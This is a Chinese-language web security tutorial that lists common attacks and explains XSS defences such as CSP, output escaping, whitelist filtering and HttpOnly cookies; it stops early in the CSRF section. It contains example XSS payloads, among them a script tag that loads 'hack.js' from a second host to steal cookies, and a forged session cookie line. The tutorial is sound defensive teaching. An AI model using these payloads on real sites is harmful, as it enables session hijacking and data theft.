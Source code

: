- 常见的Web攻击方式
  - XSS
  - CSRF
  - 点击劫持
  - SQL注入
  - OS注入
  - 请求劫持
  - DDOS

- 防范方法
  - 密码安全 - 密码加固
  - 密码学（对称与非对称）
  - 传输安全 - HTTPS
  - NodeJS安全框架 hemelt
  - CSP 策略 content-security-policy



## 常见Web攻击

### 一、XSS

> Cross Site Scripting --- 跨站脚本攻击
>
> 因为缩写和CSS重叠，所以只能叫XSS。跨站脚本攻击是指通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的非站点HTML标签或Javascript进行的一种高级。
>
> 跨站脚本攻击有可能造成以下影响：
>
> - 利用虚假输入表单骗取用户个人信息。
> - 利用脚本窃取用户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
> - 显示伪造的文章或图片。



> XSS攻击分类

- 反射型 - url参数直接注入

```js
// 普通
http://localhost:3000/?from=china
// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>
// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>
// 短域名伪造 https://dwz.cn/
// 伪造cookie入侵 chrome
document.cookie="cookie:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="

```



- 存储型 - 存储到DB后读取时注入

```js
// 评论
<script>alert(1)</script>
// 跨站脚本注入
我来了<script src="http://localhost:4000/hack.js"></script>
```





#### XSS攻击的危害 - Scripting能干啥就干啥

- 获取页面数据
- 获取Cookie
- 劫持前端逻辑
- 发送请求
- 偷取网站的任意数据
- 偷取用户的资料
- 偷取用户的秘密和登录态
- 欺骗用户



#### 防范手段

##### 1、CSP

> **内容安全策略** (CSP, Content Security Policy) 是一个附加的安全层，用于帮助检测和缓解某些类型的攻击，包括跨站脚本 (XSS) 和数据注入等攻击。 这些攻击可用于实现从数据窃取到 网站破坏或作为恶意软件分发版本等用途。
>
> CSP 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只 需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻 击。

```js
// 只允许加载本站资源
Content-Security-Policy: default-src 'self'
// 只允许加载 HTTPS 协议图片
Content-Security-Policy: img-src https://*
// 不允许加载任何来源框架
Content-Security-Policy: child-src 'none'
```

```js
ctx.set('Content-Security-Policy', "default-src 'self'")
// 尝试一下外部资源不能加载
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>
```



##### 2、转义字符

ejs转义

```html
<% code %>	:	用于执行其中javascript代码
<%= code %>	:	会对code进行html转义； 推荐
<%- code %>	:	将不会进行转义
```



##### 3、黑名单

> 用户的输入永远不可信任的，最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠 进行转义

```js
function escape(str) {
  str = str.replace(/&/g, '&amp;')
  str = str.replace(/</g, '&lt;')
  str = str.replace(/>/g, '&gt;')
  str = str.replace(/"/g, '&quto;')
  str = str.replace(/'/g, '&#39;')
  str = str.replace(/`/g, '&#96;')
  str = str.replace(/\//g, '&#x2F;')
  return str
}
```



> 对富文本来说，显然不能通过上面的办法来转义所有字符，因为这样会把需要的格式也过滤掉。对于这种情况，通常采用白名单过滤的办法，当然也可以通过黑名单过滤，但是考虑到需要过滤的标签和标签属性实在太多，更加推荐使用白名单的方式



##### 4、白名单

```js
const xss = require('xss')
let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>')
// -> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt;
console.log(html)
```



##### 5、HttpOnly Cookie

> 这是预防XSS攻击窃取用户cookie最有效的防御手段。Web应 用程序在设置cookie时，将其属性设为HttpOnly，就可以避免该网页的cookie被客户端恶意JavaScript窃取，保护用户 cookie信息。
>

```js
response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly")
```

注：cookie在同域的情况下会被请求自动带上，期间其实不需要js参与



### 二、CSRF

> CSRF(Cross Site Request Forgery)，即跨站请求伪造，是一种常见的Web攻击，它利用用户已登录的身份，在用户毫不知情的情况下，以用户的名义完成非法操作。
>

- 用户已经登录了站点 A，并在本地记录了 cookie
- 在用户没有登出站点 A 的情况下（也就是 cookie 生效的情况下），访问了恶意攻击者提供的引诱 危险站点 B (B 站点要求访问站点A)。
- 站点 A 没有做任何 CSRF 防御



0.56



















































